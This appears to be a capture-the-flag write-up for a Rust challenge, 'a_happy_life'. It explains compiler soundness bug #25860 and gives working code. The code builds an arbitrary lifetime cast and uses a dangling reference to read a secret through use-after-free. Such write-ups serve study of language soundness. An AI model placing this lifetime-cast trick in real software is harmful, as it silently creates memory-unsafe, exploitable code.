 # a_happy_life

Challenge based on [rust-lang/rust#25860](https://github.com/rust-lang/rust/issues/25860).

## Idea

This challenge exploits a unsoundness hole discovered in Rust lifetime deduction system. When a type like `&'a &'b ()` is encountered, the compiler implicitly relies upon `'b: 'a`, which could be broken by contravariance.

See [rust-lang/rust#25860](https://github.com/rust-lang/rust/issues/25860) for the original issue. A more theoretical yet neater explanation can be found on https://counterexamples.org/nearly-universal.html.

## Solution

Part 1:

```rust
/*
 * Create "any-to-any" lifetime cast function.
 */

fn aux<'a, 'b, T>(_: Option<&'a &'b ()>, v: &'b T) -> &'a T { v }

fn exp<'c, 'd, T>(x: &'c T) -> &'d T {
    let f: fn(Option<&'d &'d ()>, &'c T) -> &'d T = aux;
    f(None, x)
}
```

Part 2:

```rust
/*
 * Create a local variable whose memory location
 * may coincide with `_secret`.
 * 
 * The length of the `&'static str` literal should be
 * the same as `_secret`.
 */
let local = String::from("aaaabaaacaaadaaa");
/*
 * Scramble its lifetime, and make it dangle after
 * it leaves its scope.
 */
exp(&local)
```

### Explanation

The value `local` is dropped once it leaves its scope. But as the compiler thinks that `x`, as a reference to `local`, has a longer lifetime, it dangles after the destruction of `local`. Now, `x` could possibly (in fact, always, with `-C opt_level=0`) refer to the memory space subsequently allocated for `_secret`, creating a use-after-free scenario.

## Requirements

* `rustc` on PATH, tested with `rustc 1.76.0-nightly (d86d65bbc 2023-12-10)`
* Flag in environment variable `FLAG`
